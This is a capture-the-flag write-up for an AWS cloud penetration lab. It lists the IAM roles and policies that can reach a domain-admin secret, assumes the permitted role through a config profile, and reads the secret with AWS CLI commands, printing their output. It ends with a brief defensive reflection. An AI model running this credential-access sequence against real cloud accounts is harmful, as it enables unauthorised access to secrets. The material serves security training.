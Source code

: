 # Challenge: CloudFoxable Backwards

## Challenge Statement:
Assumed Breach: Principal

---

## Challenge Details:

Starting Point: arn:aws:secretsmanager:us-west-2:ACCOUNTID:secret:DomainAdministrator-Credentials-SUFFIX

In some challenges, you might not see an IAM role or an IP address as the starting point, but rather, an interesting ARN or something like that.

Sometimes during cloud penetration tests, we first find something interesting and then work backwards to see who has access to it. Is it just the Administrators? Well, that's not really a big deal. Is it all developers, or all users, or anyone in the world? That might be a really big deal!

So in this challenge, we'd like you to get comfortable finding who has access to the interesting thing. For now, the interesting thing is just another secret in secretsmanager, but in later challenges, and on cloud penetration tests, this approach will become quite important.

So, go find out who has access to DomainAdministrator-Credentials in secretsmanager and then use your cloudfoxable profile to access that role and grab the secret.

---

## Solution:

To find the flag, refer to the following procedure:

a.	In AWS CLI, set the cloudfoxable profile which is associated to IAM user ctf-starting-user. See below command.
```
set AWS_PROFILE=cloudfoxable
```

b.	Verify it using below command. It should indicate user/ctf-starting-user.
```
aws sts get-caller-identity
```

c.	List all the roles that can be assumed. The output is quite long as all the roles are listed.
```
aws iam list-roles
```

d.	Find the role and associated policy related to the given ARN – arn:aws:secretsmanager:us-west-2:ACCOUNTID:secret:DomainAdministrator-Credentials-SUFFIX. I have look at each role and finally got it as shown below.

Command:
```
aws iam list-attached-role-policies --role-name Alexander-Arnold
```

Output:
```
{
    "AttachedPolicies": [
        {
            "PolicyName": "corporate-domain-admin-password-policy",
            "PolicyArn": "arn:aws:iam::202533511029:policy/corporate-domain-admin-password-policy"
        }
    ]
}
```

Command:
```
aws iam get-policy-version --policy-arn arn:aws:iam::202533511029:policy/corporate-domain-admin-password-policy  --version-id v1
```

Output:
```
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "secretsmanager:GetSecretValue"
                    ],
                    "Effect": "Allow",
                    "Resource": [
                        "arn:aws:secretsmanager:us-west-2:202533511029:secret:DomainAdministrator-Credentials-ADrDZ9"
                    ]
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-04-03T01:39:00+00:00"
    }
}
```


e.	Based on the output, we can perform secretsmanager:GetSecretValue to the resource arn:aws:secretsmanager:us-west-2:202533511029:secret:DomainAdministrator-Credentials-ADrDZ9
Now, find the name of the secret.

Command:
```
aws secretsmanager list-secrets
```

Output:
```
{
            "ARN": "arn:aws:secretsmanager:us-west-2:202533511029:secret:DomainAdministrator-Credentials-ADrDZ9",
            "Name": "DomainAdministrator-Credentials",
            "LastChangedDate": "2025-04-02T21:39:00.440000-04:00",
            "LastAccessedDate": "2025-04-02T20:00:00-04:00",
            "Tags": [
                {
                    "Key": "Name",
                    "Value": "Corporate Domain Admin Password"
                }
            ],
            "SecretVersionsToStages": {
                "094CF4A2-88B7-4588-B522-435A6E3DF4D0": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2025-04-02T21:38:55.448000-04:00"
        },		
```

f.	Set up the role Alexander-Arnold. Edit C:\Users\Dex\.aws\config and add the following:
```
[profile alexander-arnold]
region = us-west-2
role_arn = arn:aws:iam::202533511029:role/Alexander-Arnold
source_profile = cloudfoxable
```

g.	Get the secret value associated with secret DomainAdministrator-Credentials using alexander-arnold.
Command:
```
aws secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials --profile alexander-arnold 
```
 
Output:
```
{
    "ARN": "arn:aws:secretsmanager:us-west-2:202533511029:secret:DomainAdministrator-Credentials-ADrDZ9",
    "Name": "DomainAdministrator-Credentials",
    "VersionId": "094CF4A2-88B7-4588-B522-435A6E3DF4D0",
    "SecretString": "FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-04-02T21:39:00.434000-04:00"
}
```

h.	The output shows the flag. The flag is: 
```
FLAG{backwards::IfYouFindSomethingInterstingFindWhoHasAccessToIt}
```

---

## Reflection:

### What was your approach?
First, I have listed all IAM roles to identify which ones had attached policies with access to the specific ARN: arn:aws:secretsmanager:us-west-2:ACCOUNTID:secret:DomainAdministrator-Credentials-SUFFIX.
The actual ARN is arn:aws:secretsmanager:us-west-2:202533511029:secret:DomainAdministrator-Credentials-ADrDZ9.
I ran commands like aws iam list-roles and aws iam list-attached-role-policies to inspect permissions. I also used aws secretsmanager get-secret-value to test access once I identified the correct role.

### What was the biggest challenge?
The biggest challenge was identifying the exact IAM role that had access to the specified secret. Understanding how permissions worked across roles took time and effort.

### How did you overcome the challenges?
I cross-referenced policies to manually inspect inline and managed policies attached to different roles.

### What led to the breakthrough?
The breakthrough came by manual IAM policy analysis. By focusing on policies related to secretsmanager:GetSecretValue, I found the role that could access the target secret.

### On the blue side, how can the learning be used to properly defend the important assets?
From a defensive perspective, organizations should restrict IAM role assumptions, implement MFA for role assumptions, and audit IAM permissions regularly.
